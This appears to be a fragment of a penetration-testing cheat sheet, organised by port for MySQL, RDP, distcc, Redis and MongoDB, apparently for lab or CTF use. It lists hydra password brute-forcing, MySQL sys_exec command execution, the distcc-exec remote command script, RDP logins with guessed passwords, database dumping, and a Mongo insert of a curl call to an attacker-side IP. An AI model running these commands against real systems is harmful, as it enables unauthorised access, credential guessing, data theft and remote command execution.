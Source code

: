 ```bash
# Commands
mysql -u root -p -h 10.10.10.10
mysql -u root -pPassword123 -e "use drupal;select * from users"

# Bruteforce
hydra -l nik -p password.txt 10.10.10.10 mysql -t 30 -f

# Check UDF
select * from msql.func;

# Mysql Commands
select sys_exec('whoami');
```

### 3389 (RDP)

```bash
# Nmap
nmap -p 3389 --script=rdp-vuln-* 10.10.10.10

# Commands
xfreerdp /u:nik /p:'Password@123!' /cert:ignore /v:10.10.10.10
xfreerdp /u:admin /p:password /cert:ignore /v:10.10.10.10 /drive:share_mount,/opt/folder_to_mount
```

### 3632 (DISTCC)

```bash
# Nmap
nmap -p 3632 10.10.10.10 --script distcc-exec --script-args="distcc-exec.cmd='id'"

```

### 6379 (REDIS)

```bash
# Install
sudo apt-get install redis-tools

# Commands
redis-cli -h 10.10.10.10
	* keys *
	* get pk:ids:User

```

### 27017,27018 (MONGODB)

```bash
# Commands
mongo localhost:27017/myplace -u nik -p Password123
	* show dbs
	* use <db>
	* show collections
	* db.<collection found>.find()
	* db.<collection found>.insert( { _id: 1, cmd: "curl 10.10.14.4/test"} )
```
